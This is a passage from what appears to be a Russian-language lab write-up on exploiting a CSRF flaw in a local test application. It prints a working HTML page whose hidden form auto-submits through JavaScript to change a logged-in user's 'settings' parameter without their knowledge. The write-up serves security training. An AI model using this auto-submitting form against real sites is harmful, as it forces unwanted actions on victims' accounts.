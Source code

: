 После этого попытаться убрать защитные механизмы (CSRF-токены или заголовок Referer) и понять, как реагирует приложение на это.

## Эксплуатация

![Иллюстрация к проекту](https://github.com/kythip/shift2019/blob/master/csrf/Снимок.PNG)

На рисунке 1 показаны оригинальная страница и видоизмененный запрос, изменяющий параметр `settings` с `true` на `false`.




![Иллюстрация к проекту](https://github.com/kythip/shift2019/blob/master/csrf/Снимок1.PNG)

На рисунке 2 показан результат перехода по ссылке, показанной на рисунке 1. Как видно на рисунке 2 – пользователем, в браузере которого были сохранены cookie и, следовательно, он был залогинен на данном сайте, был отправлен запрос против его воли. 



![Иллюстрация к проекту](https://github.com/kythip/shift2019/blob/master/csrf/Снимок2.PNG)


На рисунке 3 показан состав пакета, с помощью которого составили вредоносную ссылку. Во второй строке показан изначальный хост - адрес сервера, с которого и с которым проводятся манипуляции. В первой строке указан метод, команда и изменяемая переменная.


```html
<!DOCTYPE html> 
  <html lang="en"> 
  <head> 
    <meta charset="UTF-8"> 
    <title>CSRF</title> 
  </head> 
  <body> 
 
  <br> 
  <p> 
    <form name="csrf_try" action="http://192.168.99.100:1337/change_settings_2" method="POST"> 
      <p><input type=hidden value="false" name=settings> 
  </form> 
  </p> 
    <script type="text/javascript"> 
    document.csrf_try.submit(); 
  </script>  
  </body> 
  </html>
```
Данный код представляет HTML-страницу, на который присутсвует вредоносный код. В form указывается имя формы, метод и "действие". В данном случае, переход на страницу изменения параметра. В строке `input` указывается атрибут `hidden`, который скрывает от пользователя изменения параметра на `false`. После формы идет код javascript, который выполняет автоматическую отправку формы при открытии страницы.
Теперь, если залогиненный пользователь на ресурсе `192.168.99.100`, перейдет на данную страницу, то у него изменится параметр `settings` на `false`.
  